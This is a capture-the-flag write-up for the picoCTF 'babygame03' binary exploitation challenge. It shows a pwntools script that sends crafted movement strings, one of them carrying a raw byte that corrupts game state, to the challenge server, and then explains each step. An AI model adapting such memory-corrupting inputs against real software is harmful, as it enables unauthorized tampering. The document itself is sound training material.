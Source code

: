 # babygame03

```markdown
Tags: `Binary Exploitation` `game`
```

## **Description**

Break the game and get the flag. Welcome to BabyGame 03! Navigate around the map and see what you can find! Be careful, you don't have many moves. There are obstacles that instantly end the game on collision. The game is available to download [here](https://artifacts.picoctf.net/c\_rhea/5/game). There is no source available, so you'll have to figure your way around the map.

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## **Solution Strategy**

```python
from pwn import *

remote_server = 'rhea.picoctf.net'
remote_port = 50008

io = remote(remote_server, remote_port)

payloads = [
    'lsdddddddddddddddddddddddddddddddddddwwwww', # Level 1
    'dddddddddddddddddddddddddddddddwwwww',       # Level 2
    'dddddddddddddddddddddddddddwwwww',           # Level 3
    'dddddddddddddddddddddddwwwww',               # Level 4
    'l\xFEdddddddddddddddddddwwwww'               # Level 5
]

for payload in payloads:
    io.sendline(payload)

io.interactive()

io.close()
```

* **Importing `pwntools`**: It leverages `pwntools`, a framework designed for developing exploits, to simplify interactions with network services and binary processes.
* **Remote Connection Setup**: Specifies the target's server address and port, then establishes a remote connection to this target, creating a communication channel for sending data and receiving responses.
* **Payloads Definition**: Outlines an array named `payloads`, with each element being a string intended to exploit or manipulate a specific level within the game. These strings are tailored commands that, when executed by the game, advance the player through each level or exploit certain vulnerabilities.
* **Payloads Delivery**: Iterates over the `payloads` array, sending each payload sequentially through the established remote connection. This assumes the game processes each input in the order received and moves the player through the game's levels accordingly.
* **Interactive Session**: After sending all the payloads, the script transitions to an interactive mode using `io.interactive()`. This mode allows the script runner to manually interact with the game, useful for observing the results of the exploitation or for further manual exploitation.
* **Connection Closure**: Finally, it properly closes the remote connection to clean up resources and end the session with the target game.

## Flag

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
